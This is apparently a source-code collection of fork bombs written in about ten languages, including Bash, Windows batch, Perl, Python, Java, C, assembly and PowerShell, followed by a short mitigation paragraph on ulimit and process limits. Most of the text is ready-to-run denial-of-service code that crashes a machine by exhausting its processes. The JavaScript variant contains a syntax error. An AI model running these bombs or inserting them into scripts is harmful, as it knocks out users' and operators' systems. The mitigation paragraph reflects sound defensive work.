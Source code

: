 #fork bombs in multiple languages props to th3 r3v from da3m0n s3c https://da3m0ns3c.blogspot.com/2017/04/fork-bomb-in-several-language-implements.html

#BASH
$ :(){ :|: & };:

#.sh (Shell file)
#!/bin/bash
./$0|./$0&

#.bat (Windows bat implements)
:TOP
start "" %0
goto TOP

#~OR~
%0|%0
  #below is the same, but done in command line using ^ to escape specials:
echo %0^|%0 > forkbomb.bat
forkbomb.bat

#.pl (Perl implement)
#! /bin/perl
perl -e "fork while fork" &

#.py (Python implement)
#! /bin/py
import os
while 1:
    os.fork()

#(Java implement)
public class ForkBomb
{
 public static void main(String[] args)
  {
   while(true)
   {
Runtime.getRuntime().exec(new String[]{"javaw", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
  }
 }
}

.js (JavaScript implement)
function bomb() {
  setTimeout function() {
   for (;;) {
    bomb();
   }
  }, 0);
}

#.c (C lang implement)
#include <unistd.h>
int main(void)
{
   while(1) {
    fork(); /* malloc can be used in order to increase the data usage */

   }
}

#.asm (Assembly, IA-32)
section .text
   global _start

_start:
   mov eax,2 ;System call for forking
   int 0x80 ;Call kernel

   jmp _start

#.ps (PowerShell implement)
while($true) {
   Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:";
   Invoke-Expression -Command 'while($true) {Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:"}';}

#Mitigation.
The fork bomb's mode of operation, (or MO), is entirely encapsulated by creating new processes, one way of preventing a fork bomb from severely affecting the entire system is to limit the maximum number of processes that a single user may own. On Linux, use ulimit cmd with the below arguments: ulimit -u 30 This limits the affected user to a maximum of thirty owned processes. On PAM-enabled systems, the limit can be set in /etc/security/limits.conf
and on FreeBSD, root can set limits in
/etc/login.conf
